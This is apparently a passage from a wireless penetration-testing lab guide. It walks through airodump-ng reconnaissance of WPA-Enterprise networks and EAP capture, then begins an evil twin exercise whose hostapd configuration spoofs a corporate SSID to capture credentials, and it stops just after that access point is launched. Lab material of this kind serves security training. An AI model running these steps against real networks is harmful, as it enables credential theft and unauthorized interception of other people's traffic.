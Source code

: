**Reconnaissance Commands**:
```bash
# Discover enterprise networks
airodump-ng -w enterprise_scan --output-format csv wlan0mon

# Target specific enterprise network
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w enterprise_target wlan0mon

# Analyze enterprise-specific management frames
airodump-ng -c 6 --bssid 00:11:22:33:44:55 --beacons --localtime wlan0mon
```

**Analysis Tasks**:
1. Identify WPA-Enterprise networks
2. Analyze authentication methods (EAP-TLS, EAP-PEAP, EAP-TTLS)
3. Examine certificate information
4. Document client authentication attempts

### **Exercise 1.2: EAP Method Analysis**

**Objective**: Understand different EAP authentication methods and their vulnerabilities.

**EAP-PEAP Analysis**:
```bash
# Capture EAP-PEAP authentication
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w eap_peap wlan0mon

# Filter for EAP frames in Wireshark
# Filter: eap || eapol
```

**EAP-TLS Analysis**:
```bash
# Capture certificate-based authentication
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w eap_tls wlan0mon

# Analyze certificate chains
# Use Wireshark to examine TLS handshake
```

---

## 🔧 Phase 2: Advanced Attack Techniques

### **Exercise 2.1: Evil Twin Attack**

**Objective**: Create convincing fake access points to capture credentials.

**Setup Evil Twin**:
```bash
# Create fake AP configuration
cat > evil_twin.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=CorporateWiFi
hw_mode=g
channel=6
auth_algs=1
wpa=2
wpa_passphrase=TempPassword123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
EOF

# Start evil twin AP
sudo hostapd evil_twin.conf &

```